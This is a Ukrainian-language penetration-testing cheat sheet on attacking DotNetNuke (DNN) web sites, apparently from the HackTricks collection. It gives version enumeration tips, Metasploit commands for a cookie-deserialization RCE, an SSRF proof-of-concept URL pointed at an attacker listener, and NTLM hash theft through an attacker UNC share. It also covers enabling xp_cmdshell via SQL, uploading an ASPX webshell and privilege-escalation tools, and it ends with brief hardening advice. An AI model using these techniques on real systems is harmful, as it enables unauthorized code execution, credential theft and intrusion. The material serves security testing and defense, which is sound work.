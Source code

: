 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Якщо ви входите як **адміністратор** в DNN, легко отримати **RCE**, однак за останні кілька років було опубліковано ряд *неавтентифікованих* та *пост-автентифікаційних* технік. Наступна шпаргалка збирає найбільш корисні примітиви для як наступальних, так і захисних робіт.

---
## Перерахунок версій та середовища

* Перевірте заголовок HTTP-відповіді *X-DNN* – зазвичай він розкриває точну версію платформи.
* Майстер установки розкриває версію в `/Install/Install.aspx?mode=install` (доступно на дуже старих установках).
* `/API/PersonaBar/GetStatus` (9.x) повертає JSON-об'єкт, що містить `"dnnVersion"` для користувачів з низькими привілеями.
* Типові куки, які ви побачите на живій інстанції:
* `.DOTNETNUKE` – квиток аутентифікації форм ASP.NET.
* `DNNPersonalization` – містить XML/серіалізовані дані профілю користувача (старі версії – див. RCE нижче).

---
## Неавтентифіковане використання

### 1. Десеріалізація куків RCE  (CVE-2017-9822 та подальші)
*Постраждалі версії ≤ 9.3.0-RC*

`DNNPersonalization` десеріалізується при кожному запиті, коли вбудований обробник 404 увімкнено. Таким чином, підготовлений XML може призвести до довільних ланцюгів гаджетів та виконання коду.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Модуль автоматично обирає правильний шлях для патчених, але все ще вразливих версій (CVE-2018-15811/15812/18325/18326). Експлуатація працює **без аутентифікації** на 7.x–9.1.x і з *перевіреним* обліковим записом з низькими привілеями на 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Постраждалі версії < 9.13.8  –  Патч випущено в квітні 2025 року*

Обхід старого виправлення `DnnImageHandler` дозволяє зловмиснику примусити сервер виконувати **произвольні GET запити** (напівсліпий SSRF). Практичні наслідки:

* Внутрішнє сканування портів / виявлення метаданих у хмарних розгортаннях.
* Доступ до хостів, які інакше заблоковані брандмауером від Інтернету.

Доказ концепції (замініть `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
Запит викликається у фоновому режимі; слідкуйте за вашим слухачем для зворотних викликів.

### 3. Витік NTLM Hash через UNC перенаправлення (CVE-2025-52488)
*Постраждалі версії 6.0.0 – 9.x (< 10.0.1)*

Спеціально підготовлений контент може змусити DNN спробувати отримати ресурс, використовуючи **UNC шлях** такий як `\\attacker\share\img.png`. Windows з радістю виконає NTLM переговори, витікаючи хеші облікових записів сервера до атакуючого. Оновіть до **10.0.1** або вимкніть вихідний SMB на брандмауері.

### 4. Обхід IP фільтрації (CVE-2025-52487)
Якщо адміністратори покладаються на *Host/IP Filters* для захисту адміністративного порталу, майте на увазі, що версії до **10.0.1** можуть бути обійдені шляхом маніпуляції `X-Forwarded-For` у сценарії зворотного проксі.

---
## Пост-аутентифікація до RCE

### Через SQL консоль
У **`Settings → SQL`** вбудоване вікно запитів дозволяє виконання проти бази даних сайту. На Microsoft SQL Server ви можете увімкнути **`xp_cmdshell`** і запускати команди:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Завантаження веб-шелу через ASPX
1. Перейдіть до **`Налаштування → Безпека → Більше → Додаткові налаштування безпеки`**.
2. Додайте `aspx` (або `asp`) до **Дозволені розширення файлів** та **Зберегти**.
3. Перейдіть до **`/admin/file-management`** та завантажте `shell.aspx`.
4. Активуйте його за адресою **`/Portals/0/shell.aspx`**.

---
## Підвищення привілеїв на Windows
Якщо виконання коду досягнуто як **IIS AppPool\<Site>**, застосовуються загальні техніки підвищення привілеїв Windows. Якщо система вразлива, ви можете скористатися:

* **PrintSpoofer** / **SpoolFool** для зловживання *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** для обходу *Службових облікових записів*.

---
## Рекомендації щодо зміцнення (Блакитна команда)

* **Оновіть** до принаймні **9.13.9** (виправляє обходи SSRF) або, бажано, **10.0.1** (проблеми з IP-фільтрацією та NTLM).
* Видаліть залишкові **`InstallWizard.aspx*`** файли після установки.
* Вимкніть вихідний SMB (порти 445/139).
* Застосуйте суворі *Фільтри хостів* на крайовому проксі, а не в DNN.
* Заблокуйте доступ до `/API/RemoteContentProxy`, якщо не використовується.

## Посилання

* Документація модуля Metasploit `dnn_cookie_deserialization_rce` – практичні деталі неавторизованого RCE (GitHub).
* Повідомлення про безпеку GitHub GHSA-3f7v-qx94-666m – інформація про обходи SSRF 2025 року та патчі.
{{#include ../../banners/hacktricks-training.md}}
